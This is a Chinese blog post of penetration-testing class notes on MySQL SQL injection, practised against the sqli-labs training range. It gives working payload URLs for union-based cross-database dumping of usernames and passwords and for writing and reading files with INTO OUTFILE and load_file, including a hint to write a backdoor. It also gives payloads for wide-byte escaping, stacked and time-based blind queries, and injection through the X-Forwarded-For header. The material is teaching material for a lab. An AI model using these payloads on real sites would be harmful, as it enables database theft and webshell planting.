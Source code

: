 ```yaml
---
title: 04-mysql注入
categories:
- 渗透测试
tags:
- 渗透测试
abbrlink: 1f29cfad
date: 2020-02-08 15:48:36
---
```




  

> 靶场下载地址：https://github.com/Audi-1/sqli-labs
  
### mysql数据库分层

    1.库名，表名，列名，数据库用户等
    2.数据库与WEB应用相结合的架构关系

```sql
Mysql数据库
        数据库A zblog  =  www.zblog.com
                表名
                        列名
                                数据
        数据库B dede   =  www.dede.com
                表名
                        列名
                                数据

PS：
数据库A及B都属于Mysql数据库里面的
数据库用户：管理数据库的用户
级别：管理员用户root 普通用户随机
自带数据库：mysql数据库自带的




```

#### mysql注入权限问题

- 普通用户   **（只能靠猜数据进行安全测试）**
- root用户 

**查询参数：**

```
user()
database()
version()    // 查询数据库版本
@@version_compile_os     // 操作系统版本

```

#### 跨库注入

>场景:   要渗透B， B没有漏洞，但是A有注入漏洞 

```sql
-- 
1.获取所有的数据库name    
-- select group_concat(schema_name) from information_schema.schemata;
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata)

2. 再选取某个数据库下面的表  
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')

3. 根据表查列
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')

4. 查数据
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(username,password) from security.users)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select concat_ws(0x7e,username,password) from security.users  limit 3,1)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(concat_ws(0x7e,username,password)) from security.users)


```


sqlLabs 1 -7 练习

---



## MYSQL高权限注入

    mysql跨库注入-已讲
    mysql文件操作注入-sqlilabs less7



```sql
-- null
http://192.168.0.106/Less-7/?id=1')) union select null,null,null --+

--win的路径的话，加2个斜杠防止转义
-- 写入（aaa可以换成后门代码,txt可以换php）   （高版本，失败：需要数据库开启secure_file_priv，如果可以执行命令，可以绕过：下来自己查）
http://192.168.0.106/Less-7/?id=1')) union select  'aaa',null,null into outfile '/var/www/html/Less-7/test.txt' --+

-- 自己查资料？？？？？？？？？？


-- 读取文件
http://192.168.0.106/Less-7/?id=1')) union select   null,null,load_file('/var/www/html/Less-7/test.txt') --+


-- 路径问题：需要提前得到网站完整路径
-- 路径获取方法：
1.报错显示          inurl:php  warning
2.遗留文件        phpinfo()的 server_root。 script_filename
3.漏洞爆路径       discuzz爆路径
4.其他
    读取(配合load_file)网站解析配置文件
    字典盲猜测fuz： 


```



## MYSQL过滤型注入

mysql**宽字节**绕过注入-sqlilabs less32

> 宽字节注入条件：数据库编码为GBK等非中文

> 原理：%5c是反斜杠/ ,  而 %df%5c 是一个繁体字（我不会读），所以单引号成功逃逸

```sql
$id=check_addslashes($_GET['id']); # 在你输入单引号的时候，自动加\转义

魔术引号： magic_quote_gpc       (php.ini配置文件中), 打开之后，会转义单引号双引号  ------ 和上面的过滤函数有区别

【方法】：
%df"
%df'

http://192.168.0.106/Less-32/?id=-1%df%27 union select 1,2,3 -- + 


其他方法，自己查阅：？？？？？？？？？？

列举几个常用的URL转码的字符

空格           %20

单引号       %27

#                %23

\                 %5C


```

在PHP中，通过`iconv()`进行编码转换时，也可能存在宽字节注入漏洞  





## MYSQL其他注入

#### 加密编码注入       -sqlilabs less21  (post注入)

先加密，再填写
inurl:MQ=

```sql
了解主流加密/编码规律

```

#### base64注入攻击

程序代码中使用`base64_decode($_GET('id'))` 对参数进行解码

```
对 id' 进行base64编码后为  MSc=  ，而%3d是=的url编码， 拼接为 `MCs=%3d` 后尝试；
1 and 1=1 的base64编码为  ，1 and 1=2 的base64编码为 ， 分别放到id=的后门尝试， 结果如果不同，则存在漏洞
继续使用order by 继续

````

**其他利用场景：**
过waf， 绕过检测



#### 堆叠查询注入

堆叠查询可以执行多条sql语句，多语句之间使用**分号**隔开，**在第二个sql语句中构造自己要执行的语句**

例如：

```sql
';select if(substr(user(),1,1)='r', sleep(5),1) -- + 
-- 一般只会返回第一条sql的执行结果
http://192.168.0.121:8080/Less-9/?id=1%27; select if(left(user(),4)='root',sleep(5), 0); -- + 
-- 所以，在第二条语句中，可以私用update更新数据或者时间盲注获取数据

```


#### XFF注入

x-Forwarded-For， 代表客户端真实的ip， 修改后可以伪造客户端ip
将xff头改为:`127.0.0.1`访问，如果返回正常，分别设置为`127.0.0.1' and 1=1#` 和`127.0.0.1' and 1=2#`再次访问  ，根据返回结构判断有没有漏洞  
继续使用order by， 而后使用union `127.0.0.1' union select 1,2,3#`

php中的`getenv()`函数用于获取一个环境变量的值 ，如果不存在返回false



---

下次课继续...